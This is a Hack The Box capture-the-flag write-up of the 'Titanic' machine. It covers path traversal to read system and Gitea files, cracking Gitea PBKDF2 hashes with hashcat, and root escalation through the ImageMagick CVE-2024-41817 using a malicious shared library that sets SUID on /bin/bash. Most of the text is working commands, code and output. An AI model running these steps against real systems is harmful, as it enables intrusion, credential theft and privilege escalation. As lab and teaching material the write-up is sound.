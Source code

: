 ```yaml
---
title: Titanic - Linux Easy - HTB Writeup 
description:
slug: titanic-htb-writeup-linux-easy
date: 2025-06-21 00:00:00+0000
image: Titanic.png
categories:
    - Hack
    - Linux
    - Easy
tags:
    - LFI
    - Gitea
    - ImageMagick
# weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```

## Summary
User: Path traversal on the titanic.htb application\
Root: Arbitrary code execution via CVE-2024-41817(ImageMagick).

## Enumeration
Using an nmap scan, we can identify a web service on port 80 and SSH exposed on port 22.

{{< highlight go "hl_lines=1 3 7" >}}
nmap -Pn -p 80,22 10.129.175.139 -v -A
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
{{< /highlight >}}

## User
### Path traversal
While exploring `titanic.htb`, we notice that if we submit the booking form, a JSON of our booking data is downloaded.\
![](Titanic-web.png)
{{< highlight go "hl_lines=1" >}}
$ cat 5a41afb2-469c-4d75-8faf-4c1b70d398be.json | jq .
{
  "name": "test",
  "email": "test@test.com",
  "phone": "test-01",
  "date": "2025-06-18",
  "cabin": "Deluxe"
}
{{< /highlight >}}
On Burp, the `ticket` parameter via the `/download` endpoint allows specifying the file to download.\
![](Burp-ticket.png)\
The lack of control or validation on this parameter allows us to read files on the machine via a path traversal.\
This vulnerability allows us to retrieve the following information:\
`/etc/passwd` indicates the existence of the user `developer`.\
`/etc/hosts` allows us to retrieve a new subdomain, `dev`.\
![](Burp-LFI1.png)\
![](Burp-LFI2.png)

### Gitea
For now, we can't go further, let’s explore `dev.titanic.htb`.\
We find an instance of [Gitea](https://about.gitea.com/), a self-hosted version control tool using git.
![](Gitea-1.png)\
We find two publicly accessible repositories, `docker-config` and `flask-app` .\
![](Gitea-2.png)\
In the `docker-config` repository, we find MySQL crendentials in the file `/mysql/docker-compose.yml`.\
The nmap scan did not identify MySQL access, we keep these credentials aside.\
![](Gitea-3.png)\
Still in this same repo, in `/gitea/docker-compose.yml`, we find the path to a volume.\
![](Gitea-volume.png)\
Using this path, the previously found path traversal vulnerability and Gitea documentation, we can retrieve the Gitea configuration file.\
After several attempts, it is located at `/home/developer/gitea/data/gitea/conf/app.ini`.\
In this config file, we find the path of the Gitea database, we use the website to retrieve it.\
![](Gitea-4.png)\
Exploring this database with sqlite3, we can retrieve the hashes of `developer` and `administrator`.\
{{< highlight go "hl_lines=1" >}}
$ sqlite3 gitea.db                                                                                                               
...
sqlite> select * from user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
{{< /highlight >}}
The hashes are in PBKDF2 format and can be converted using [gitea2hashcat.py](https://github.com/hashcat/hashcat/pull/4154/files#diff-ccd519555457fa8e0c74b0dc7bd66727216dd446c7bcff8cd5196fe919e2b000) to be compatible with Hashcat. Then, we can easily retrieve the `developer` account password.
{{< highlight go "hl_lines=1 6" >}}
$ sqlite3 gitea.db 'select salt,passwd from user;' | ./gitea2hashcat.py
[+] Run the output hashes through hashcat mode 10900 (PBKDF2-HMAC-SHA256)
sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=

$ hashcat -a 0 -m 10900 hash /usr/share/wordlists/rockyou.txt
...
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
{{< /highlight >}}
We use this password to SSH into the machine and retrieve the flag.\
{{< highlight go "hl_lines=1 3 5" >}}
$ ssh developer@titanic.htb
...
developer@titanic:~$ ls
gitea  mysql  user.txt
developer@titanic:~$ cat user.txt
e85d89a008cff72094f40882eb2f7d9b
{{< /highlight >}}

## Root
### CVE-2024-41817(ImageMagick)
Once on the machine, we notice the script `identify_images.sh` in `/opt/scripts/`.
{{< highlight go "hl_lines=1 24" >}}
developer@titanic:/opt$ tree .
.
├── app
│   ├── app.py
│   ├── static
│   │   ├── assets
│   │   │   └── images
│   │   │       ├── entertainment.jpg
│   │   │       ├── exquisite-dining.jpg
│   │   │       ├── favicon.ico
│   │   │       ├── home.jpg
│   │   │       ├── luxury-cabins.jpg
│   │   │       └── metadata.log
│   │   └── styles.css
│   ├── templates
│   │   └── index.html
│   └── tickets
├── containerd  [error opening dir]
└── scripts
    └── identify_images.sh

8 directories, 10 files

developer@titanic:/opt$ cat scripts/identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
{{< /highlight >}}
This command identifies the format and characteristics of files ending with .jpg in `/opt/app/static/assets/images/` and stores them in `/opt/app/static/assets/metadata.log`.\
We notice the timestamp of metadata.log is updated every minute, the script is owned by root so it could be in a cron job.\
The commands `truncate`, `find`, `xargs` are not exploitable here. `Imagemagick` being a tool used in CTFs in vulnerable versions, we look for CVEs associated with its version `7.1.1-35`.\
{{< highlight go "hl_lines=1" >}}
developer@titanic:~$ magick --version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
...
{{< /highlight >}}

We find [this advisory on Github](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8) regarding `CVE-2024-41817` allowing arbitrary code execution on versions <= 7.1.1-35.\
To obtain code execution as root, we will adapt the POC mentioned by replacing id to set the SUID on /bin/bash.
{{< highlight go "hl_lines=1 11 12 14 16" >}}
developer@titanic:/tmp$ cat libxcb 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod +s /bin/bash");
    exit(0);
}

developer@titanic:/tmp$ gcc -x c -shared libxcb.c -fPIC -o ./libxcb.so.1
developer@titanic:/tmp$ mv libxcb.so.1 /opt/app/static/assets/images/

developer@titanic:/tmp$ ls -ld /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 14  2024 /bin/bash
developer@titanic:/tmp$ bash -p
bash-5.1# id
uid=1000(developer) gid=1000(developer) euid=0(root) egid=0(root) groups=0(root),1000(developer)
bash-5.1# ls /root
cleanup.sh  images  revert.sh  root.txt  snap
{{< /highlight >}}

## Resources
> [gitea2hashcat.py](https://github.com/hashcat/hashcat/pull/4154/files#diff-ccd519555457fa8e0c74b0dc7bd66727216dd446c7bcff8cd5196fe919e2b000)\
> [Advisory Github for CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)